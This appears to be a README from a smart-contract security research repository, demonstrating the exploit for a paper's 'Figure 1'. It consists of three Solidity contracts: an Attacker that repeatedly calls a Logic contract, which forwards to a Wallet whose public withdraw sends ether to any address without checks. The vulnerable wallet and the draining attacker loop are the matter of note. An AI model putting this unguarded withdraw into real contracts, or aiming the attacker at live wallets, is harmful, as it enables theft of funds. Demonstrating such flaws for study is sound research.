 ## Exploits of Figure 1

#### Attack Flow

Attacker -> Logic -> Wallet --trasfer ethers--> Attacker

#### Attacker Contract

```javascript
contract Attacker {
    address addr_l;
    uint count=0;
        
    constructor ( address _addr ) payable
    {
        addr_l = _addr;
    }
        
    function someFun() public
    {
        count = count+1;
        if (count<5)
        {
            Logic(addr_l).logging(this,10);
        }
    }
        
    function () payable {}
        
    function setCount()
    {
        count = 0;
    }
        
    function getBalance() public view returns (uint)
    {
        return address(this).balance;
    }
        
}
```


#### Logic Contract

```javascript
    contract Logic{
        
        address private addr_w;
        
        event changed(address _exec, uint  _value);
        
        function logging( address _exec, uint _value)  public
        {
            emit changed(_exec, _value );
            withdraw(_exec, _value);
        }
        
        function  withdraw( address _exec, uint _value) internal
        {
            Wallet(addr_w).withdraw(_exec, _value);
        }
        
        constructor(  address _addr ) payable {
            addr_w = _addr;
        }
        
        function getBalance() public view returns (uint)
        {
            return address(this).balance;
        }
    }
```

#### Wallet Contract

```javascript
    contract Wallet {
        constructor() payable {}
        
        function withdraw( address _exec, uint _value) public
        {
            _exec.transfer(_value);
        }
        
        function getBalance() public view returns (uint)
        {
            return address(this).balance;
        }
    }
```

#### Running Screenshots

![](./attack01.jpg)